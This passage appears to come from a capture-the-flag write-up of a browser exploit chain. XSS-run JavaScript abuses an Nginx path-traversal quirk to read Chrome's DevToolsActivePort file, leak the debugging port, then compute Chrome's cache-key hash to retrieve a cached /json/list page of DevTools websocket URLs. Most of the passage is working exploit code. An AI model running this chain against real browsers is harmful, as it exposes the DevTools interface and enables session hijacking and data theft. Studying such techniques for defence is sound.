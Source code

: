One of the best-known methods for that is to **scan all possible ports** from the browser, but it can take a long time and we can simply read the file `DevToolsActivePort` from the Nginx.

```js
fetch('http://localhost/logs../browser_cache/DevToolsActivePort') // Leak the port, no SOP here
    .then(response => response.text())
    .then(text => {
        const lines = text.split('\n');
        if (lines.length > 0) {
            const port = lines[0].trim();
```

3) **Then open a `/json/list` tab**

This tab will contains all the websockets URL, including our **base tab**

```js
const base_url = "http://localhost";
const WS_urls = `${base_url}:${port}/json/list`

window.open(WS_urls); // we cache the page of the /json/list, SOP here because of different port than the XSS
```

4) **Compute the hash key from cache key**

We've the url and the algo, let's compute it !

```js
const cache_key = `1/0/_dk_${base_url} ${base_url} ${base_url}:${port}/json/list`; // we create the hash_key from the URL

// Uint8Array
const encoder = new TextEncoder();
const data = encoder.encode(cache_key);

//SHA1 the cache_key
const hashBuffer = await crypto.subtle.digest('SHA-1', data);
const hashArray = Array.from(new Uint8Array(hashBuffer));

// Take only 8 first bytes and reverse them
const truncatedReversedHash = hashArray.slice(0, 8).reverse();

// Finally hex them
const hashHex = truncatedReversedHash.map(b => b.toString(16).padStart(2, '0')).join('');
const hash = hashHex + '_0'; // Depend of data type, for a classic HTML is generally _0
```

5) **Recover the /json/list cached file**

```js    
const cacheUrl = `http://localhost/logs../browser_cache/Default/Cache/Cache_Data/${hash}`;
    fetch(cacheUrl)
        .then(response => response.text())
        .then(htmlContent => {[...]});
```
